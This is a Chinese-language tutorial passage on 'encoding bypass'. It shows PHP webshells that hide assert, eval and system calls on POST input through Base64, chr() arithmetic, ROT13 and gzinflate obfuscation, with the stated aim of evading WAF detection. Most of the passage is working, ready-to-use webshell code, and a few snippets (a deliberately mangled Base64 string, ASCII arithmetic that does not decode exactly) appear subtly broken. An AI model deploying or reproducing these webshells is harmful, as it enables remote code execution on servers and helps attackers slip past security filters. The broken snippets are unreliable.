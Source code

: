 ## 1# 编码绕过

这算是早期的免杀手法，可以通过编码来绕过 WAF 的检测，如下：

### 1.1 Base64 编码

```bash
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为 assert 高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>
```

### 1.2 ASCII 编码

```bash
<?php
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>
```

我们再来看一个 ASCII 的拓展应用：

```bash
<?php
$_uU=chr(99).chr(104).chr(114);   //$_uU=chr
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);   //$_cC=eval($_POST[1]);
$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);   //$_fF=create_function
$_=$_fF("",$_cC);   //$_=create_function("",eval($_POST[1]);)
@$_();
?>
```

### 1.3 ROT13 编码

```bash
$f = str_rot13('flfgrz');  //解密后为 system 高危函数
$f($_POST['aabyss']);      //system($_POST['aabyss']);
```

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对 WAF 进行 ByPass

### 1.4 Gzip 压缩加密

我先举一个 `phpinfo()` 加密后的示例：

```bash
/*Protected by AabyssZG*/
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA')));
```
